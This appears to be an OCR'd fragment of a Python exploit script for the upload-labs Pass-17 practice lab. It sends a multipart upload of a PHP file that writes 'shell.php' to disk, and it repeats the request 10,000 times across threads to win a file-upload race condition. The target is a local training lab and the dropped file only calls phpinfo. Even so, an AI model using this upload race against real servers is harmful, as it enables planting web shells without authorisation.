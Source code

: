 ```python

Connection: close

Upgrade-Insecure-Requests: 1

Content-Type: multipart/form-data; boundary=---------------------------6696274297634

Content-Length: 341



-----------------------------6696274297634

Content-Disposition: form-data; name="upload_file"; filename="18.php"

Content-Type: application/octet-stream



<?php

$myfile = fopen("shell.php", "w") or die("Unable to open file!");

$txt = "<?php  phpinfo();   ?>\n";

fwrite($myfile, $txt);

fclose($myfile);

?>

-----------------------------6696274297634

Content-Disposition: form-data; name="submit"



上传

-----------------------------6696274297634--

"""

​    code, head, html, redirect, log = hh.http('http://127.0.0.1/upload-labs/Pass-17/index.php', raw=raw)

​    print(str(code) + "\r")


pool = ThreadPool(10)

pool.map(upload, range(10000))

pool.close()

pool.join()
```
